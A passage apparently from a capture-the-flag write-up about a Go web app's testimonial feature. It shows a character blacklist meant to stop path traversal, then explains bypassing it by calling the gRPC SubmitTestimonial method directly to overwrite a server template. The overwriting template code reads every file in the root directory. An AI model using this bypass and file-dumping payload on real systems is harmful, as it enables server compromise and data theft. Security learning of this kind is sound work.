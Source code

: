 ``` go
		if err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}

		if err := c.SendTestimonial(customer, testimonial); err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}
	}
	return home.Index().Render(r.Context(), w)
}

```

The testimonial submission request process uses the sendTestimonial function found in the client.go file with the code below. In the sendTestimonial function, there is a blacklist of characters to prevent Path Traversal when submitting a testimonial.

client.go file:

``` go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{ "/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

Flow to obtain the flag:
1. Path Traversal Overwrite File /view/home/index.templ
2. Access the View index.templ

Exploit by directly calling the SubmitTestimonial method via gRPC to bypass the Path Traversal filter in the SendTestimonial function. Slightly modify the index.templ file to be used for overwriting /view/home/index.templ.

The modified index.templ file will overwrite and read the flag, which is located at "/" (entrypoint.sh file):

``` go
func GetTestimonials() []string {
	fsys := os.DirFS("/")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}
```
